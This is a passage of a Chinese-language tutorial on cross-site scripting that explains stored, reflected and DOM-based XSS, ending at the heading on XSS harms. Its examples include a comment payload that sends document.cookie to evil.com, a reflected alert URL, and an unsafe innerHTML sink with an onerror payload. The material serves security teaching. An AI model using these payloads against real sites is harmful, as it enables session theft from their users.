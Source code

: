 ## XSS攻击

跨站脚本攻击(Cross-Site Scripting, XSS)是一种代码注入攻击，攻击者向目标网站注入恶意JavaScript代码，当用户浏览页面时执行这些代码。

### XSS攻击类型

#### 1. 存储型XSS

恶意代码被存储在目标服务器上(如数据库)，当用户请求包含此恶意代码的页面时，代码会在用户浏览器中执行。

**攻击流程**：
1. 攻击者在表单、评论等输入点提交包含恶意脚本的内容
2. 服务器未经过滤存储这些内容
3. 其他用户访问包含恶意脚本的页面
4. 恶意脚本在用户浏览器中执行

**示例**：
攻击者在评论区提交：
```html
这是一条评论<script>document.location='https://evil.com/steal?cookie='+document.cookie</script>
```

#### 2. 反射型XSS

恶意代码包含在URL中，服务器接收后返回给用户，在用户浏览器中执行。

**攻击流程**：
1. 攻击者构造包含恶意代码的URL
2. 诱导用户点击该URL
3. 服务器接收参数并在响应中"反射"出来
4. 恶意脚本在用户浏览器中执行

**示例**：
```
https://example.com/search?q=<script>alert(document.cookie)</script>
```

#### 3. DOM型XSS

恶意代码不经过服务器，而是通过前端JavaScript代码直接处理不可信数据并写入页面。

**攻击流程**：
1. 攻击者构造包含恶意代码的URL
2. 诱导用户点击该URL
3. 前端JavaScript从URL中提取数据并不安全地写入DOM
4. 恶意脚本在用户浏览器中执行

**示例**：
```javascript
// 不安全的前端代码
document.getElementById("output").innerHTML = location.hash.substring(1);
```

如果URL为`https://example.com/#<img src=x onerror=alert(1)>`，恶意代码会被执行。

### XSS攻击危害
